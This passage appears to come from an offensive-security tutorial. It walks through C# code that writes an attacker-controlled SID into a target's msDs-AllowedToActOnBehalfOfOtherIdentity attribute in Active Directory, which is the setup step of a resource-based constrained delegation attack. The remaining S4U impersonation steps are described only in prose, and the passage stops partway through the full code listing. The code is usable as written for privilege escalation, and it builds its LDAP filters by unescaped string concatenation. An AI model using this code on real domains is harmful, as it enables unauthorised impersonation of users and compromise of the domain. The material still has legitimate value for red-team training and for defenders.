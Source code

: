 ```cs
string sid = accountToSidLookup(account);
```

Using the `RawSecurityDescriptor` class in the `System.Security.AccessControl` namespace, we can create the binary representation of the `msDs-AllowedToActOnBehalfOfOtherIdentity` attribute including our desired SID and place it in the `descriptor` byte array. 

```cs
RawSecurityDescriptor rsd = new RawSecurityDescriptor("O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;" + sid + ")");
Byte[] descriptor = new byte[rsd.BinaryLength];
rsd.GetBinaryForm(descriptor, 0);
```

Next, to write the attribute, we have to have a `SearchResult` object representing the target LDAP object, so we're required again use some previously covered topics from the enumeration section and find the LDAP object associated with the target by querying its `samAccountName`.

```cs
SearchResultCollection results;

DirectoryEntry de = new DirectoryEntry();
DirectorySearcher ds = new DirectorySearcher(de);

string query = "(samaccountname=" + target + ")";
ds.Filter = query;
results = ds.FindAll();
```

While only one object will be returned, I opted to use a `foreach` loop for ease of access to the `SearchResult` object in the returned `SearchResultCollection`. We need to get the directory entry of the `SearchResult`, we can do this by calling the `GetDirectoryEntry()` method on it. Then we can call the `Add()` method to add the descriptor to the specified attribute, in this case `msDs-AllowedToActOnBehalfOfOtherIdentity`. Finally call the `CommitChanges()` method to save the changes.

```cs
 foreach (SearchResult sr in results)
 {
     DirectoryEntry mde = sr.GetDirectoryEntry();
     mde.Properties["msds-allowedtoactonbehalfofotheridentity"].Add(descriptor);
     mde.CommitChanges();
 }
```

Now that the `msDs-AllowedToActOnBehalfOfOtherIdentity` attribute has been modified, a service ticket can be requested for the target account from the controlled account using Service for User to Proxy (S4U2Proxy), which requires a forwardable Ticket Granting Ticket (TGT) from a Service for User to Self (S4U2Self) to impersonate whichever desired user account. This process is the rest of the RBCD attack, which won't be covered with a code example. 

The full example code is listed below:

```cs
public static string accountToSidLookup(string account)
{
    SearchResultCollection results;

    DirectoryEntry de = new DirectoryEntry();
    DirectorySearcher ds = new DirectorySearcher(de);

    string query = "(samaccountname=" + account + ")";
    ds.Filter = query;
    results = ds.FindAll();
    string accountSid = null;

    foreach (SearchResult sr in results)
    {
```